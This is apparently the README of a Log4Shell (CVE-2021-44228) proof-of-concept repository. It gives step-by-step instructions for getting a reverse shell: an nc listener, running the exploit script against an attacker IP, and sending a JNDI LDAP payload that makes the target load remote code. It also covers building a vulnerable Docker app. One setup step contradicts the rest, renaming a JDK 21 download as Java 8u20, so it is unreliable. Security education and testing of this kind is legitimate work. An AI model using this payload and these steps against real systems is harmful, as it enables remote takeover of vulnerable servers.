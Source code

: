 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.

Proof-of-concept (POC)
----------------------

As a PoC there is a python file that automates the process. 

#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:
(Note from Tyler - I re-wrote this because I found the original confusing.)

### Getting a Shell

1. Git clone this: https://github.com/kozmer/log4j-shell-poc 
2. Download this JDK: https://download.oracle.com/java/21/latest/jdk-21_linux-x64_bin.tar.gz 
3. Move it to the log4j directory created in step 1. 
4. Unzip it: `tar -xf jdk-21_linux-x64_bin.tar.gz` 
5. Rename it to `jdk1.8.0_20` 
6. Set up a NC listener on port 1337
7. Run the exploit: `python3 [poc.py](http://poc.py/) --userip 10.8.4.163 --webport 80 --lport 1337` 
8. Delete the Exploit.class
9. Re-compile the Exploit.class in the correct Java version: `javac -source 1.8 -target 1.8 Exploit.java` 
10. Send the payload: `%24%7Bjndi%3Aldap%3A%2F%2F10.8.4.163%3A1389%2Fa%7D` (needed to be URL encoded in this example)

Vulnerable application
--------------------------

There is a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

<br>

Getting the Java version.
--------------------------------------

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).
